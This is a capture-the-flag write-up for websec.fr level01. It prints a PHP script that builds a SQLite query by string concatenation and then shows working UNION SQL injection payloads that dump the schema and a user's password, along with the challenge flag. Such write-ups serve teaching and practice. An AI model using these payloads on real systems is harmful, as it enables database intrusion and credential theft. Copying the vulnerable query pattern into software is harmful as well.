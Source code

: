 # level01 - 1 point
[Link to the challenge](http://websec.fr/level01)

## Description
```
Nothing fancy
```
This application is used to view the username by the given user ID, it will return the corresponding username from the database.

## Write-up
They provide us the HTTP file related to the challenge. Inside it, we find a PHP script:
``` PHP
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

If we test the program using `id = 1` we get as a response that the user with this ID is called "levelone".

By quickly looking at the PHP script, we can see that the SQL query is vulnerable to an injection:
``` SQL
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
```

Thus, we can set up a SQL UNION Injection payload to exploit the database search:

``` SQL
1 UNION SELECT null, sql FROM sqlite_master WHERE type='table'; -- used to get the sqlite table schema
```
As a result we get this:
```
Username for given ID: CREATE TABLE users(id int(7), username varchar(255), password varchar(255))

Other User Details:
id ->
username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))
```
Nice! Now that we have the table schema, we can leak any user's password. With this in mind, we'll get levelone's password with this payload:
``` SQL
1 UNION SELECT id, password FROM users WHERE id=1; --
```

As a result we get:
```
Username for given ID: WEBSEC{Simple_SQLite_Injection}

Other User Details:
id -> 1
username -> WEBSEC{Simple_SQLite_Injection}
```

Great! The flag is `WEBSEC{Simple_SQLite_Injection}`

**Flag: `WEBSEC{Simple_SQLite_Injection}`**


